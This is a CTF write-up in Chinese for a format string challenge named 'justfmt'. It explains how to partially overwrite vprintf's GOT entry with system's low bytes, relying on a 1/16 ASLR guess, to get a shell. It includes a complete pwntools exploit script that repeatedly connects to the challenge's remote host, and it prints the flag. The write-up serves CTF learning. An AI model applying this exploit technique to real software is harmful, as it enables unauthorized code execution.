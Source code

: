 ## justfmt
### solution
`WriteFormatted`會把參數丟到`va_list`傳給`vprintf`，因此實際上就等於`printf`，題目大致能改寫如下
```c
int main() {
    read(0, buf, 40)
    printf(buf);
    printf(buf);
}
```
本題`printf`有40 bytes buffer的format string漏洞，基本上能辦到任意寫跟leak，詭異的點在於連續`printf`兩次，但中間卻沒有任何輸入能改變buf。

題目給了libc，但只有一次input，就算leak出位址了也不能再次輸入，沒有leak的話也沒辦法知道return的位址來控制rip，

檔案只有PARTIAL RELRO，唯一想到控制rip的方法是overwrite `vprintf@got`，原本想試圖寫為`main`之類的，但若是寫掉`vprintf`也就無法再繼續使用漏洞，試著partial寫成one gadget也都fail。

最後想到的是不穩定的方式，在提供的libc中可以發現`vprintf`位址為`0x4f040`，`system`為`0x46590`，由於ASLR不會隨機化最後12bits，且這兩者在附近，因此我們可以試著把`vprintf@got`最後2 bytes(16bits)寫成`0x6590`，如此一來只要賭前4個bit(16種可能)，也就是1/16的機率相同即可執行`system`。

再來是payload，由於要執行shell，因此最前面加上`sh #`來截斷後面的部份即可。

### script
```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

while True :
    r = remote("104.199.235.135", 2113)
    binary = ELF("justfmt")
    libc = ELF("libc-2.19.so")

    payload = b"sh #"
    payload += b"%%%dc%%13$hn" % (libc.symbols[b"system"] % 0x10000 - len(payload))
    payload += b"a" * (0x38 - len(payload))
    payload += p64(binary.got[b'vprintf'])

    r.sendline(payload)
    try:
        r.interactive()
    except:
        r.close()
        continue
```
### flag
```
AIS3{fMt_stR1n6_1s_H4rp_s0w3t1meS_dnt_1ts_fnu!!}
```
